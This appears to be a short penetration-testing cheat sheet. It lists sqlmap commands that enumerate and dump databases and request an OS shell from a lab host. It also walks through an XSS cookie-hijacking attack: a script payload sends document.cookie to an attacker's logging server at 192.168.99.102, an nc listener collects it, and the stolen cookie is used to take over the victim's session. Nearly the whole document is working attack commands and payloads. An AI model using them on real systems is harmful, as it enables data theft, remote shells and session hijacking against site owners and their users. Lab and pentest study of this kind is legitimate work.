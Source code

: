 
### sqlmap

determine the databases:
```bash
sqlmap -u http://10.10.10.15/?id=4 --dbs
```

determine the tables:
```bash
sqlmap -u http://10.10.10.15/?id=4 -D dbname --tables
```

dump a table's data:
```bash
sqlmap -u http://10.10.10.15/?id=4 -D dbname -T table --dump
```

try to get os-shell:
```bash
sqlmap -u http://10.10.10.15/?id=4 --os-shell
```

### xss

check example:
```javascript
<script>alert("hack :)")</script>
```

#### hijack cookie through xss
there are four components as follows:
- attacker client pc
- attacker logging server
- vulnerable server
- victim client pc


1) attacker: first finds a vulnerable server and its breach point.

2) attacker: enter the following snippet in order to hijack the cookie kepts by victim client pc (p.s.: the ip address, 192.168.99.102, belongs to attacker logging server in this example):
```javascript
<script>var i = new Image();i.src="http://192.168.99.102/log.php?q="+document.cookie;</script>
```

3) attacker: log into attacker logging server (P.S.: it is 192.168.99.102 in this example), and execute the following command:
```bash
nc -vv -k -l -p 80
```

4) attacker: when victim client pc browses the vulnerable server, check the output of the command above.

5) attacker: after obtaining the victim's cookie, utilize a firefox's add-on called Cookie Quick Manager to change to the victim's cookie in an effort to hijack the victim's privilege.

